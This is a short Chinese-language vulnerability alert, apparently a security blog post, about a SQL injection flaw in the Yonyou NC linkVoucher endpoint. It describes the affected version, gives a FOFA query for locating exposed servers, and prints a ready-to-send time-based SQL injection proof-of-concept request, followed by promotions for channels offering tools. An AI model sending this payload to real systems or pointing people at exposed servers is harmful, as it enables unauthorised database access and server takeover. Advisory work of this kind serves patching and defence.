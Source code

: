 #  漏洞预警 | 用友NC linkVoucher SQL注入漏洞   
Enomothem  Eonian Sharp   2024-06-01 12:45  
  
## 产品介绍  
  
用友NC是由用友公司开发的一套面向大型企业和集团型企业的管理软件产品系列。这一系列产品基于全球最新的互联网技术、云计算技术和移动应用技术，旨在帮助企业创新管理模式、引领商业变革。  
## 漏洞威胁  
  
用友NC /portal/pt/yercommon/linkVoucher 接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。  
## 影响范围：  
  
NC 65  
## 空间测绘  
  
FOFA: app="用友-UFIDA-NC"  
## 漏洞复现  
  
POC  
```
GET /portal/pt/yercommon/linkVoucher?pageId=login&pkBill=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```  
  
### 免费加入知识星球获取更多资源  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hvMQKkLOqzMTficPkTrCDM8eDLmPJ2QcGV0zscBY58KKp4S31mB8SWw1I0CYoRa1Mah1CpbJJ3RYeA3oKcpHQ8g/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 加入知识大陆获取内部工具情报等  
  
阿sir，你的poc到了，近期发现斗象的知识大陆充满圈子气息，生气活活，将与斗象联合推广知识大陆，将会把一些优质的资源发到知识大陆中，有料，更有量！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hvMQKkLOqzMTficPkTrCDM8eDLmPJ2QcGKLZ7K71um2f1GoZxvl4AwhWLY1zJFL7MmtpQibBGyiaFNMaM3BvGG65Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
